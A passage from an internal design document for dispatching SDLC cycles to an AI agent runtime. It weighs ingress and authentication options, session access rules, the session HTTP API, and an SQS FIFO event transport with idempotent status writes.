**The one-line fix this document originally prescribed is wrong, and wrong in a way that re-creates the failure it exists to prevent.** It was `cycle?.progressLog || cycle?.activities || []`. The cycle record **initialises `progressLog: []`**, and `[]` is truthy in JavaScript, so that expression returns `[]` for every cycle that has not yet written a progress line and **never consults `activities` at all**. During Phases 4–6 both writers are live on different cycles, so the commit intended to stop the *runtime* feed going blank would have blanked the *legacy* feed instead, on every un-migrated application, for the whole migration.

**A fallback chain is the wrong shape regardless**, because both arrays can be populated at once and their entries need to interleave by time. And there is a second instance of the same defect in the opposite direction in the backend: `progressTracker.js` reads `cycle.activities || cycle.progressLog || []`, which stops consulting `progressLog` the moment the legacy agent appends one entry.

**Fix: one shared pure selector that merges both arrays and sorts on timestamp**, living in `backend/common/` so backend tests can exercise it and the frontend can import it through the alias mechanism `cycleStatuses.js` already uses, and called from both read sites. An entry with an unparseable timestamp sorts last rather than throwing — a malformed entry must degrade, not blank the feed, which is the whole lesson here. **Ship it in Phase 0, not Phase 4:** it is independently correct today (the orchestrator's own `progressLog` writes are equally invisible right now) and it removes a cutover failure from the critical path.

Two adjacent frontend/backend name mismatches found while tracing this, both pre-existing, both one-line, both worth sweeping in the same change:

- `CycleProgress.jsx:69-71` reads `cycle.createdAt`; the backend writes `startedAt` (`index.js:1089`). The elapsed-time display is always empty.
- `CycleProgress.jsx:149-158` reads `cycle.iteration`; the backend writes `currentIteration` (`index.js:1090`). The iteration bar never renders.
- `PIPELINE_STAGES` index 3 (`draft_pr`) is unreachable — no status maps to it (`CycleProgress.jsx:28-58`); `building` and `pr_checks_pending` both jump to 4.

---

## 2. The SDLC API surface

### 2.1 Inbound: how CC reaches the runtime

Under the SQS design the inbound surface shrinks to **four short HTTP calls**: create a session, read it, cancel it, release it. CC never sends a message to a running session (§3.2), so there is no resume, no client-initiated mode switch, and no session-conflict contract to honour. All are request/response, all complete in well under a second, and none holds a connection. That is exactly the case `HTTP_PROXY` handles without argument — and it means the awkward half of the previous design (proxying a WebSocket, which API Gateway HTTP APIs cannot do) is simply gone.

Because the surface is now this small, **compute placement is a genuine open variable**, not a constraint inherited from current state. Two viable options.

#### Option A — API Gateway M2M → public ALB (no VPC attachment)

```
Lambda (no VPC)
  → POST https://<cognito-domain>/oauth2/token            (client_credentials, M2M client)
  → <command_center_api>/runtime/{proxy+}                 (Bearer; cognito_authorizer JWT)
  → HTTP_PROXY, connection_type = INTERNET                (no VPC Link)
  → https://sherpa.<customer_subdomain>/v1/sdlc/{proxy}   (+ X-Nevado-Sdlc-Key header)
  → ALB listener rule: path + http_header → forward       (no authenticate-cognito)
  → target group :3000 → runtime
```

Infrastructure deltas:

1. **One M2M app client** with scope `commandcenter/cycles.write`. Not Terraform-managed: M2M clients are minted at runtime by `apiCredentialManager` (`backend/go/internal/credmanager/create.go:66-69`, allowlist `:33-37`), which also mutates the authorizer audience list — and `main.tf:247-262` carries `lifecycle { ignore_changes = [jwt_configuration] }` precisely so Terraform does not fight it. **Provisioning it is an operational step, not a `terraform apply`.** No such client exists today (§1.3).
2. **One route + integration** on `command_center_api`. This would be the repo's first `HTTP_PROXY` integration — all ~25 existing `aws_apigatewayv2_integration` resources are `AWS_PROXY` to a Lambda, with no `connection_type` attributes and no VPC links anywhere in `infrastructure/`.
3. **Two ALB listener rules**, not one:
   - priority 5: `path_pattern = ["/v1/sdlc/*"]` **AND** `http_header { http_header_name = "X-Nevado-Sdlc-Key", values = [<secret>] }` → `forward`.
   - priority 6: `path_pattern = ["/v1/sdlc/*"]` → `fixed_response` 403.

   Rule 6 is not decoration. ALB conditions are match-or-fall-through: a request with a wrong or missing header does not get rejected, it falls past rule 10 (`/v1/workspace/auth`) and rule 20 (`/v1/workspace/*`) to the listener default, which is `authenticate-cognito` with no `on_unauthenticated_request` set (`sherpa-ec2.tf:556-569`) — ALB's default there is `authenticate`, i.e. a 302 to the hosted UI. Without rule 6 a misconfigured caller gets an HTML login redirect instead of a 403 and loses a day to it.

   The shared secret is mandatory, not hardening. `aws_security_group.sherpa_alb` allows TCP 443 from `0.0.0.0/0` (`sherpa-ec2.tf:443-449`) and the ALB is `internal = false` (`:489`). Path obscurity on an internet-facing listener is not a control.
4. **One new shared secret** feeding both the integration's `request_parameters` and the ALB rule condition.

   **Neither end can resolve it dynamically.** An `aws_apigatewayv2_integration` `request_parameters` mapping takes a static value or a `$context`/`$request` variable — not a Secrets Manager lookup. An `aws_lb_listener_rule` `http_header` condition takes a literal `values` list. So whichever way it is stored, the literal lands in the rendered Terraform config and in state. Storing it in Secrets Manager and reading it with a data source moves where it is *authored*, not where it ends up.

   Accept that rather than dressing it up: this is a **static, long-lived, config-resident shared secret**, and its rotation story is "change it in two places and apply." That is a real weakness of Option A and the clearest single argument for Option B, where a security group replaces it with something that has no secret at all. Mitigations that are honest: keep it long and random, mark the variable `sensitive`, rotate on a schedule someone actually owns, and treat state-file access as equivalent to holding the secret.
5. **Every one of these must be added to `deploy-dev.yml`'s `-target=` list** — and the rule is harder to enforce than this document originally stated. `deploy-dev.yml` applies an explicit target list (426 entries across three phased applies) and **deploys `internal`**. A resource absent from that list is written, reviewed, merged, and **silently never deployed there**. For this design that means the API Gateway route and integration, both listener rules, the secret, and later the FIFO queue, the DLQ, the DLQ alarm, the event source mapping, the runtime IAM statement, and `sdlcEventConsumer` with its log group and permission.

   **The correction that costs a deploy cycle if missed: `testing` is deployed by a different workflow, with no targets at all.** `deploy-testing.yml` dispatches `deploy-customer-instance.yml`, which does a full untargeted `plan`/`apply`. So every phase of this design is validated in an environment that picks up new resources **whether or not the target entry exists** — a forgotten entry fails no exit criterion, and surfaces later on internal. Add the target in the same PR as the resource, every time, and note the inverse trap: a `-target` for a resource whose `count` is 0 on internal (the Sherpa EC2 runtime and its ALB do not exist there) **fails the apply**, so some of these resources must deliberately *not* be listed.
6. **New Lambda env vars.** The runtime's base URL is exposed to nothing today — the only reference anywhere is the output at `sherpa-ec2.tf:709-712`, and the only consumer of `sherpa.<subdomain>` is the CloudFront origin at `frontend.tf:243-254`. `sherpaConfig` (`lambdas.tf:1183-1213`) returns no URL field either. Needed: `SDLC_RUNTIME_API_BASE`, `COGNITO_TOKEN_ENDPOINT`, `SDLC_M2M_CLIENT_ID`, `SDLC_M2M_CLIENT_SECRET_ARN`.

#### Option B — VPC-attached caller → private address, security group as the control

The runtime is privately addressable at `10.16.2.183` in `vpc-02482e2c1d40e003b` (§1.3). A VPC-attached Lambda in the same VPC reaches it directly on port 3000. No API Gateway, no ALB, no Cognito M2M, no shared secret, no new listener rules. **The security group is the access control**, which is a stronger and far more legible boundary than a header match on an internet-facing listener.

The honest cost, and it is the deciding factor: **a VPC-attached Lambda loses default internet egress.** The orchestrator needs GitHub (five PR-create sites, three merge sites, §3.4) and Cognito. So Option B means either a NAT Gateway (~$32/month per AZ plus data processing, for a workload that makes a handful of calls per cycle) or splitting the orchestrator so only the session-dispatch half is VPC-attached — which means a new Lambda, a new deployment unit, and a synchronous invoke between them.

Worth stating plainly: **no CC Lambda is VPC-attached today** — zero `vpc_config` blocks across all of `infrastructure/*.tf`. That is a description of the status quo, not an argument. It does mean Option B is new operational ground (VPC endpoints for DynamoDB/S3/Secrets Manager, ENI cold-start behaviour, subnet capacity) in a way Option A is not.

**The harder blocker is permissions, not egress.** The runtime's VPC is not provisioned by CC's own deployment role: every resource in `sherpa-ec2.tf` is created through the `aws.sherpa_runtime` provider alias, which assumes `CommandCenterSherpaProvisionerRole`, because *"Command Center's own CommandCenterDeploymentRole has no EC2 perms — the narrow scoped role is the only path for EC2 lifecycle here"* (`sherpa-ec2.tf:12-17`). A VPC-attached Lambda needs `ec2:CreateNetworkInterface`/`DescribeNetworkInterfaces`/`DeleteNetworkInterface` in the **deployment** role, plus cross-provider references to the runtime VPC's subnets and security groups. That is a change to the account's permission boundaries, negotiated with whoever owns `nevado-customer-provisioner` — not a Terraform edit.

#### Recommendation

**Option A, and revisit if Option B's split becomes free for another reason.**

Reasoning, in order:

1. Under SQS the inbound path is three infrequent calls. Option B's advantages — no public exposure, no shared secret, SG-based authz — are real but are being bought for a very small surface.
2. Option B's cost is not the NAT bill, it is the orchestrator split. `agentDrivenOrchestrator/index.js` is 4,984 lines and owns GitHub, DynamoDB, SQS, and the cycle state machine. Carving the session-dispatch half into a VPC-attached function to save an ALB rule is a bad trade at this stage.
3. Option A is empirically testable today (§1.3) — the runtime and ALB are live in testing.
4. Option B crosses an account permission boundary (above), which makes it a conversation with another team rather than a design choice this document can make.
5. **The consumer needs no ingress at all under SQS.** This is what narrows the question: whatever is decided here governs the four calls in §2.3 and nothing else. The event path is unaffected either way, and that is most of the traffic.

Against all that, Option B's one genuine advantage is the one Option A cannot fix: **no shared secret** (see item 4 above). If the static-secret posture is judged unacceptable, that is the reason to pay Option B's costs — not the security-group aesthetics.

If the orchestrator is ever split for unrelated reasons — the Go migration is the obvious candidate — Option B becomes clearly better and should be taken then. Record it as a deliberate deferral, not a rejection.

**One thing to prove before either option is built** (§1.3): that a Cognito `client_credentials` access token, which carries `client_id` rather than `aud`, actually passes `cognito_authorizer`'s `audience` check. If it does not, Option A needs a Lambda authorizer instead of the JWT authorizer, and that changes the estimate. Option B is unaffected — which is a point in its favour worth remembering if the curl fails.

#### Amended — the API Gateway hop does not earn its place, and reason 2 above has expired

**Two things have changed since this recommendation was written, and together they reopen it.**

**First: the API Gateway hop is not a security control, and this document already contained the evidence without drawing the conclusion.** §2.2 says *"the shared secret is the real boundary; the client-id header is bookkeeping on top of it"* — correct, and it means more than it appears to. The ALB listener rule matches on **path plus the shared header, and nothing else**. So:

> **Option A is not defence in depth. It is two doors, and either one alone suffices.** A valid token with the right scope gets you through API Gateway, which then *supplies* the secret on your behalf. The secret alone gets you through the ALB directly, with no token at all. The security of the composite is the security of the weaker path, which is the secret. Adding the token path does not raise the floor; it adds a second independent way in and a second thing to keep secret.

Defence in depth would require both keys on one path. This is not that.

**So what does the hop actually buy?** Assessed honestly, because the question deserves more than "nothing":

| Claimed benefit | Verdict |
|---|---|
| Protects the runtime | **No.** Anyone with the secret bypasses it entirely. Phase 1's own negative test proves this deliberately: the ALB returns `200` to a bare `curl` carrying only the header. |
| Injects a non-forgeable `X-Nevado-Client-Id` | **True, and currently worthless.** §2.2 as amended defers per-client partitioning: `createdBy` is *written but not read* in v1. The mapping feeds a field nobody checks. It becomes worth something when a second M2M client exists — at which point R12 says the header was never a control anyway. |
| The scope check (`authorization_scopes` on the route) | **Real, and protecting a distinction v1 does not make.** It stops a second M2M client with the wrong scope — but v1 has one client, and §2.2 already defers per-client separation. |
| Rate limiting / throttling | **Not load-bearing.** The inbound surface is, in this section's own words, three infrequent calls per cycle. The runtime's actual overload protection is `MAX_CONCURRENT_SESSIONS`, a hard cap that queues. |
| Audit | **Thin.** In v1 the access log says "the one client called the thing", which CC's own logs say with more context. The runtime has no useful request logging at all (§1.3, and Phase 0 ships its logs to CloudWatch for the first time). |
| A platform policy that CC Lambdas egress only through the platform's own API | **No evidence of one, and the codebase argues against it.** CC Lambdas already make direct outbound HTTPS calls to GitHub — five PR-create sites and three merge sites — and to Cognito. A policy permitting direct egress to `api.github.com` while forbidding it to our own ALB would be incoherent. **If such a policy does exist, it is the one argument that saves the hop, and it should be named here rather than assumed.** |

**The honest cost of dropping it**, because it is not free: the shared secret moves from API Gateway's integration config into the callers. Three CC components need it — the dispatch path, the consumer's session-fetch fallback, and `stuckCycleDetector` — so it becomes a Secrets Manager read plus env wiring in each. That is a **lateral move in exposure**, not a worsening: an integration's `request_parameters`, a Lambda's env vars and a Secrets Manager secret are all IAM-gated reads by principals in the same account. And it deletes the M2M client, the route, the integration, the parameter mapping, and **the whole BQ1/audience-claim unknown — which is this document's one blocking, empirically-unanswerable question (§7 U1) — off the critical path.** Phase 1 shrinks to two ALB rules plus the secret.

So there is a third option, and it should be named rather than treated as a discount on Option A:

| | Path | Doors | Posture |
|---|---|---|---|
| **A** | Lambda → API Gateway (token) → ALB (secret) → runtime | two, either sufficient | = C, plus a decorative layer and a blocking unknown |
| **B** | VPC-attached Lambda → private address, SG is the control | one | strongest; no public exposure, no secret |
| **C** | Lambda → ALB (secret) → runtime | one | identical to A, honest about being one door |

**C has the same security posture as A because A's posture is C's.** That is the finding: A is C plus work.

**Second, and this is why the recommendation reopens rather than simply collapsing to C: reason 2 above has expired.** It read *"Option B's cost is not the NAT bill, it is the orchestrator split… carving the session-dispatch half into a VPC-attached function is a bad trade at this stage."* **The Go mandate (§5.5) means the orchestrator is being restructured regardless, and a new Go handler for the SDLC path *is* the split.** This section already anticipated exactly this: *"If the orchestrator is ever split for unrelated reasons — the Go migration is the obvious candidate — Option B becomes clearly better and should be taken then."* **That trigger has fired.**

Reason 4 has not expired, and it remains the real blocker: Option B needs `ec2:CreateNetworkInterface` and friends in the **deployment** role plus cross-provider references to the runtime VPC, which is a change to account permission boundaries negotiated with whoever owns `nevado-customer-provisioner`. Reasons 1, 3 and 5 stand.

**Recommendation, amended:**

1. **Do not build Option A as specified.** Its API Gateway half is a decorative layer carrying this plan's only blocking unknown.
2. **Take the ingress decision as part of the Go work, not inherited from it** — because the single argument that made A win is gone, and the shape of the Go handler determines whether B is cheap.
3. **If B's permission conversation succeeds, take B.** It is the only option that removes the static secret (R11) and the forgeable identity header (R12) rather than documenting them.
4. **If it does not, take C, not A.** Same security, much less to build, and U1/BQ1 stops being a gate.
5. **Either way the event path is unaffected** — the consumer needs no ingress at all, which is what has always narrowed this question to the four calls in §2.3.

### 2.2 ACL (decision 5)

**How caller identity reaches the runtime, and the honest limit of it.** `requestContext.authorizer.jwt.claims.client_id` is the *Lambda-proxy* event shape. `HTTP_PROXY` does not forward authorizer claims to the backend — so the runtime cannot read the caller's identity unless API Gateway is told to put it in a header:

```hcl
request_parameters = {
  "overwrite:header.X-Nevado-Client-Id" = "$context.authorizer.claims.client_id"
}
```

`overwrite:` matters — without it a caller can supply their own `X-Nevado-Client-Id` and it survives.

Even then, be clear about what this is worth: the runtime is trusting a header. Anyone holding the ALB shared secret can hit the listener rule directly and set that header to whatever they like. **The shared secret is the real boundary; the client-id header is bookkeeping on top of it.** Say so rather than describing the ACL as if it were an authorization system.

**Amended: the predicate is `application === 'sdlc'`, not `createdBy`.** This document originally scoped the ACL on `createdBy` and described that as the most important rule. It is the wrong key, for two reasons discovered by reading the runtime:

- **The premise was false.** This section claimed the human path already scopes by `userId` from the ALB's `x-amzn-oidc-data` header. It does not — the runtime has no authentication or authorization at all (§1.3). There is nothing to be consistent with.
- **`createdBy` cannot be set by a caller, and `application` can.** `SessionManager.create` forces `createdBy` unconditionally to the manager's own `userId`, which is the hardcoded `'dev-user'`, so **a `createdBy`-scoped ACL over today's code partitions nothing** — a no-op that looks like a control, which is the worst available outcome. `application` arrives through a *conditional* spread that only fires when the manager was constructed with one, and the runtime's manager is not, so a caller-supplied `application` survives. **v1's ACL therefore needs no SDK change.**

Given that, v1 scopes deliberately narrow: **one M2M client, one tenant.** The rules are still worth implementing — they stop an SDLC session and a human session from reaching each other, which is a real and likely failure — but multi-tenant separation rests on the secret, not on the claims.

Rules, enforced at the runtime on the session record:

| Operation | Rule |
|---|---|
| Create session | Caller must hold `commandcenter/cycles.write` or `commandcenter/full_access`, which the Go middleware already treats as a wildcard — mirror that semantics, do not invent a second scope model. **Enforce the scope at API Gateway**, which is the layer holding the verified token; only `client_id` reaches the runtime as a header. The session is stamped `application: "sdlc"` and `createdBy: "m2m:<client_id>"`. `SessionApplication` gains `'sdlc'` as a union change in `@nevadoai/sherpa-protocol`; `createdBy` is documented as human identity, so the `m2m:` prefix is a repurposing that wants a comment. |
| Read session (`GET`) | **Only sessions with `application === 'sdlc'`.** Anything else — a human `web`/`ide`/`tui` session, or a session with no `application` — returns **`404`, not `403`**: a `403` makes the endpoint a session-id oracle. Under SQS this is the *only* read path a machine caller has, which makes it both narrower and more important than it looks. |
| Cancel / release | Same predicate, same `404`. |
| Per-client partitioning | **Deferred, and honestly so.** `createdBy` is written from day one so the predicate can be added later with no migration, but it is **not read** in v1: with one M2M client it would partition a set of size one. State this as a v1 limitation in the code and the runbook; claiming multi-client isolation would be false. |
| Settings | `PUT /v1/workspace/settings` must not be reachable from the SDLC ingress. It mutates a process-wide store, so a machine caller could flip `autoApproveAllCommands` for **every session on the box, human included**. The ALB rules above are what keep it out of reach; the requirement is "do not add a settings route under `/v1/sdlc`", and it is worth a test asserting none exists. |

A machine-created session must also be **invisible to and un-resumable from the human surfaces**: `application: "sdlc"` is the filter, and the human session list already filters on `application`. Worth an explicit test, because the failure mode is a human resuming a half-finished SDLC session and quietly corrupting a cycle — and because `application` survives today only by the accident above. **Anyone who later gives the runtime's `SessionManager` an `application` of its own silently disables this entire ACL**, so the test must assert the *persisted* value, not the response body. Moving `createdBy` and `application` out of the forced block is two lines and worth taking on the same release purely to remove that trap.

### 2.3 HTTP surface, CC → runtime

All paths below are relative to `/v1/sdlc`, reached via whichever ingress §2.1 settles on. Four calls: create, read, cancel, release. Under the SQS design this is the entire inbound surface — and because CC never talks to a running session (§3.2), `create` is the only one that carries a payload of any size.

#### `POST /sessions` — create

```jsonc
{
  "mode": "plan" | "do",              // SessionCommand; packages/protocol/src/session.ts:2
  "repoUrl": "https://github.com/org/repo",
  "branch": "cycle/12",               // optional; runtime creates it if absent.
                                      // Mutually exclusive with commitSha.
  "commitSha": "a1b2c3d",             // NEW, OPTIONAL. Check out this commit detached
                                      // instead of a branch. Used by QA (§3.5).
  "baseBranch": "develop",            // optional. Branch point for `branch`; for a
                                      // commitSha checkout it is the ref to diff against,
                                      // and the runtime MUST fetch it. NEW field.
  "name": "Add invoice export",       // <= SESSION_NAME_MAX_LENGTH (50)
  "instructions": "<full system prompt authored by CC>",   // NEW. Replaces loadSystemPrompt.
  "model": "us.anthropic.claude-opus-4-6-v1",              // NEW, OPTIONAL. See below.
  "prompt": "<the first task message>",
  "profile": {                        // NEW. The non-interactive profile — see §4.
    "attended": false,
    "approvalPolicy": "auto",
    "autoApproveAllCommands": true,   // §4.4 — deliberately not an allowlist
    "maxTurns": 120,
    "tools": ["readFile", "editFile", "writeFile", "listFiles", "searchCode",
              "runCommand", "updateTaskTracker", "dispatchSubAgents",
              "usePersona", "reportCompletion"]   // allowlist — see §4.3
  },
  "correlation": {                    // NEW. Opaque to the runtime; stamped onto every
    "applicationId": "app_...",       // published message. §2.4.
    "cycleId": "CYCLE#...",
    "stage": "engineering"
  }
}
```

Response **`201`** — amended; this document originally said `202`, but the existing handler returns `201` on both arms and there is no reason to diverge. A create that exceeds the concurrency cap is also `201`, with `status: 'queued'`.

```jsonc
{ "sessionId": "sess_...", "status": "active", "workspacePath": "/workspaces/...", "branch": "cycle/12" }
```

**This is a change to `CreateSessionResponse`, which today is `{sessionId?, error?}`.** All three added fields must be *optional in the type* or the human path stops type-checking; `status` is required on the SDLC path by contract. `status` distinguishes `active` from `queued` without a second call — but note it is **not a field rename**: the handler currently fires the turn without awaiting it and returns before the concurrency gate has been evaluated, so returning an honest `status` means restructuring the create path to surface the reservation decision. Approximating it by comparing an active count to the cap is a race, and a wrong `status` is worse than none because §3.9's stall handling trusts `'queued'` to mean "healthy, keep waiting".

**Amended: `branch` is real on a `commitSha` checkout and must be returned.** This document originally said the clone is detached so `branch` is undefined. It is not detached — the SDK pins a commit with `fetch --depth 1` then `reset --hard FETCH_HEAD` **specifically so HEAD stays on a branch**, and the alternative was rejected in a comment because *"the resumed agent's commits/branch-detection would misbehave."* The branch ref moves to the commit; HEAD stays on it.

**The real hazard on this path is worse than detachment, and it is the most dangerous failure mode in this design.** `checkoutCommit` **never throws** — it returns `false` on an invalid sha, an unfetchable object, or any git failure, and the session then proceeds **against the branch tip**. For QA that means *a confident review of code the cycle never asked it to review*, with no error anywhere. A check that silently checks the wrong thing is worse than a check that fails. So on the SDLC path a `commitSha` that cannot be satisfied is a **`400` at create**, not a `201` — and CC verifies the created session's reported `commitSha` against the one it requested as a second layer, because the first depends on the runtime having implemented it.

Four deltas from `CreateSessionRequest` (`packages/protocol/src/api.ts:3-13`): `instructions`, `profile`, `baseBranch`, `correlation`. `correlation` is the one that makes the event path stateless — the runtime stores it and echoes it on every message without reading it, so the consumer resolves the cycle with no lookup table and no DynamoDB read (§2.4). `mode` is the existing `SessionCommand` union — **`runtimeDispatch.js:45` currently builds `mode: 'agent'`, which is not a member of `'do' | 'plan'`. That is a live bug and the first thing to fix.**

The second live bug is on the line above it: `runtimeDispatch.js:42-44` does `prompt: typeof expandedRequirements === 'string' ? expandedRequirements : (task || '')`. `expandedRequirements` is always an object — `index.js:1300-1301` says so in a comment written after someone got it wrong — so the approved plan is silently dropped and the agent receives only the raw one-line task. Fixed by §2.6's message construction.

#### `GET /sessions/{id}` — read the record

`GetSessionResponse` (`api.ts:40-44`) is `{session?, messages?, error?}`. `commitSha`, `branch`, `filesModified`, `status`, `totalUsage` live on `session` and nowhere in the event stream (`packages/protocol/src/session.ts`, `AgentSession`). This is the fetch `runtimeEvents.buildCompletionEffect` already assumes its consumer will do (`runtimeEvents.js:88-90`), and §3.9 makes it the authority on whether a quiet session is alive.

SDLC consumers want `session` and never `messages`. **`?include=session` is cut** — it was specified here as a normative addition while also being described as optional, and those cannot both be true. The consumer reads `.session` and discards the rest: correct, and merely wasteful. Record it as a follow-up.

Two things about this endpoint that are contract and were not known when this section was written. **A `200` does not guarantee `.session` is present** — one existing response shape is a tombstone, so the client must not assume it. And **`GET /sessions/:id` is a wrapper over `resumeSession`, i.e. a resume, not a pure read**: it can settle the ephemeral clone and mutate session state. §3.9 calls this endpoint on a cycle that has gone quiet, which is precisely the moment a side effect is least wanted. **A liveness probe that changes what it measures is not a probe** — establish whether the resume is harmless on a running session, and expose a read-only path if it is not. Do not discover this at the stall check.

#### `POST /sessions/{id}/cancel`

Existing endpoint on the human surface. Response `200`, idempotent.

**Amended, and it changes which endpoint a termination path may call: `cancel` does not stop a session that is still queued.** It aborts the controller and sweeps pending approvals, but **does not remove the parked resolver from the concurrency queue**. When a slot frees, the queue resolves that promise and the aborted turn proceeds into the body of `startSession`. So cancelling a cycle whose session is still queued will, minutes later, **start an agent on a cancelled cycle's branch.** Consequently **a cycle-termination path must call `DELETE`, not `cancel`** — `DELETE` removes the session record, so there is nothing left for the queue to resolve into. `cancel` alone is safe only for a session known to be active.

#### `DELETE /sessions/{id}` — release the workspace

Reclaims the session's working tree. **CC calls this, not the runtime**, because the reclaim point is a cycle concept the runtime has no view of (§1.1).

**Amended: this endpoint already exists, and it already does most of the job.** This document called it new server work; in fact it cancels a live session, destroys an ephemeral workspace, releases the GitHub token and deletes the record. Four deltas from what this design needs, and they are fixes rather than a build:

- **Response is `200 {ok: true}`, not `204`.** Keep `200` — it matches every other route in the service and CC branches on status class, never on the body.
- **It is not idempotent:** a second call is `404`, from a precheck the SDK's own delete does not need. **This must be fixed** — the consumer retries, and a retry becoming a failure is how a supersede silently does not happen. An already-released id is a success.
- **The concurrency slot frees asynchronously, after the response returns.** So `DELETE` returning `200` does not mean a slot is free. Awaiting the unwind is the only available fix: deleting the slot entry inside `cancel` is explicitly forbidden by the code, because that map *is* the capacity accounting.
- **A resurrection race:** the delete does not await the cancelled turn, which is still unwinding and will reach a terminal save that re-inserts the row the delete just removed. Await the unwind.

See §3.8 for when CC calls it — and note that under the amended create-then-release ordering, the asynchronous slot release matters less than it did, because the replacement session already exists before the old one is released.

#### `model` — optional, CC-chosen, runtime-validated

CC picks the model in the same payload it picks the instructions, for the same reason: role and tenant are CC concepts, and a QA review has no need to run on the same model as an engineering session.

It is **optional and advisory**. The runtime validates it against what it can actually invoke and **falls back to its own default** if the id is unknown, retired, or not permitted — a stale model id in a cycle template must not fail a cycle.

The fallback has to be visible, or CC believes it is running one model while another is billed. Two requirements:

- The completion payload's `model` carries the model **actually used**, not the one requested (§2.6 — all three payloads carry it).
- A fallback is worth a `progress` event at the point it happens, so it lands in the activity feed rather than only surfacing at completion.

Today CC owns this through `CLAUDE_AGENT_MODEL_ID` and the curated list in `backend/common/bedrockConfig.js` (`opus-4.6`, `sonnet-4.6`) with per-use-case `maxTokens`/`temperature` profiles in `bedrockConverse.js`. Passing `model` keeps that control after the four SDLC call sites are deleted. Note the runtime's IAM is `bedrock:InvokeModel` on `Resource = "*"` (`sherpa-ec2.tf:185-192`), so there is no guardrail on the runtime side — the curated list stays a CC-side concept.

One consequence to plan for: the per-use-case `temperature` values in `bedrockConfig.js` do not survive a move to Opus 4.7 or later, where `temperature`, `top_p` and `top_k` are rejected outright. That is a constraint on the curated list, not on this design.

#### Token accounting

Bedrock spend moves from the Lambdas onto a runtime shared by every tenant and by human sessions. `bedrockConverse.js:168-193` captures input, output and cache read/write tokens per call today; after the cutover CC sees none of it.

`tokenUsage` is deliberately **not** published as a stream event (§2.4) — it is per-turn and would defeat the coalescing. Instead, cumulative session totals ride on the completion payload's `usage` (§2.6), written to the cycle record alongside `engineeringResult`. One number per session per role, which is the granularity cost attribution actually needs.

**Cache tokens do not survive the move.** `TokenUsage` is `{inputTokens, outputTokens}` (`packages/protocol/src/session.ts:5-8`) and the SDK never captures cache read/write counts — `tokenUsage` events and `AgentSession.totalUsage` carry the two fields and no more. So `usage` can only report what exists:

```ts
usage: { inputTokens: number; outputTokens: number }   // matches TokenUsage
```

Adding cache counts means widening `TokenUsage` in the protocol *and* capturing them in the engine's Bedrock response handling. Worth doing — cache reads are most of the cost difference on a long session — but it is upstream work in `sherpa-sdk`, not a field this design can simply ask for. Until then, cost attribution after cutover is coarser than `bedrockConverse.js:168-193` is today. That is a regression, and it is the price of the move.

### 2.4 Outbound: the event transport

The runtime publishes; nothing subscribes. This is the whole transport.



```
runtime (EC2 instance role + sqs:SendMessage)
   → SQS FIFO: command-center-sdlc-events-<env>.fifo
        MessageGroupId      = sessionId          ← ordering
        MessageDeduplicationId = <uuid v4 per envelope>  ← retry-stable within the 5-min window
   → aws_lambda_event_source_mapping (batch)
   → sdlcEventConsumer Lambda
        → runtimeEvents.mapSessionEvent(event, {session})
        → applyRuntimeEffect(effect, ctx)        [index.js:140-166, already written]
        → exits
   ↘ on repeated failure → command-center-sdlc-events-dlq-<env>.fifo
```

#### Why FIFO

`messageGroupId = sessionId` makes SQS responsible for per-session ordering, so the consumer never has to buffer-and-reorder. That deletes a whole class of logic — and it is the right call, because reordering in the consumer would mean holding state between invocations, which is the thing this design is trying to get away from.

**Amended: the durable `seq` counter is withdrawn. The deduplication id is a per-envelope UUID v4.**

This document originally specified `MessageDeduplicationId = <sessionId>:<seq>`, requiring the runtime to mint a per-session counter and persist it durably — and recorded the resulting silent failure mode as risk R5c. Both the requirement and the risk are gone, because the requirement was never real.

**`MessageDeduplicationId` has exactly one job: be identical for a retry of the same `SendMessage`, and different for two different messages.** It does not need to be monotonic — ordering is `messageGroupId`'s job and the consumer never reorders. A UUID minted once when the envelope is constructed, and reused across retries of that one call, satisfies the requirement completely. A durable counter is strictly worse on both axes:

- **Its failure mode is silent and catastrophic.** A restart that loses the counter republishes a used id and SQS drops the message **with no error anywhere**. A UUID that loses in-memory state produces a *new* id, which is delivered — a harmless duplicate the consumer is already idempotent against. So the amended design converts an invisible loss into a visible, already-handled duplicate.
- **It puts a process-global lock on the publish hot path.** The runtime's session store serialises *whole-file* read-modify-write through a single fixed mutex key. Persisting a counter per published message would rewrite the entire session list, under that lock, on every event publish, for every concurrent session.

`seq` may survive as an **explicitly non-durable, in-memory, per-session counter for log readability only**, clearly commented as not the dedup key. Nothing in this design reads it, and if keeping it invites someone to depend on it, drop it. **There has never been a `seq` field anywhere in the protocol** — that part of the original observation was correct, and it should have been the clue.

Two things that remain true:

- **The dedup id is per-message, not per-event.** A Tier 2 message carrying eight tool events gets one id.
- **Dedup is narrow.** It covers one case — the runtime retries a `SendMessage` that actually succeeded — within five minutes. A DLQ redrive an hour later does not dedup, and neither does a republish after a restart, **which is now the correct behaviour rather than a hazard.**

So **duplicate delivery must be assumed, and the effects must survive it.** They currently do not, in one specific way worth being exact about:

- `addProgressLog`'s `list_append` is not idempotent. A duplicate activity line is cosmetic, and that is the right place for the trade to land.
- **Status transitions are the ones that must not double-apply, and `applyTransition` does not prevent it.** It takes `strict = false` by default, and on an illegal transition it calls `reportIllegalTransition` and then **assigns anyway** — `cycle.status = toStatus` runs unconditionally (`sdlcEngine.js:507,530-532,544`). The docblock is explicit that this is deliberate: 24 of 54 call sites target `FAILED` from error handlers, and throwing there would strand a cycle. So a replayed `ENGINEERING → QA_TESTING` on a cycle already past QA logs a violation and then moves the cycle backwards.

  The consumer therefore cannot rely on the transition table for idempotency. Two options, and the second is better:

  1. Pass `strict: true` from the consumer and catch the throw. Cheap, but it opts one caller into a mode the rest of the codebase does not use, and the table is admittedly incomplete (*"a gap in the table is at least as likely as a genuine bug in a caller"*, `sdlcEngine.js:520-527`) — so a table gap becomes a dropped event.
  2. **Make the status write conditional.** `writeStatus` (`index.js:104-129`) issues the `UpdateCommand`; add a `ConditionExpression` asserting the cycle is still in the status the transition expects to move it *out of*, and treat `ConditionalCheckFailedException` as "already applied, nothing to do." That is the pattern `processPlanGeneration` already uses (`index.js:1258-1275`), it needs no change to `sdlcEngine.js`, and it makes replay safe by construction rather than by a table being complete.

  Take option 2, and test it with a deliberate replay.

Note this would be **the repo's first FIFO queue** — all 16 existing `aws_sqs_queue` resources are standard. Three FIFO-specific facts that matter here:

- The queue name must end `.fifo`, and `content_based_deduplication` must be **off** (we supply explicit dedup ids).
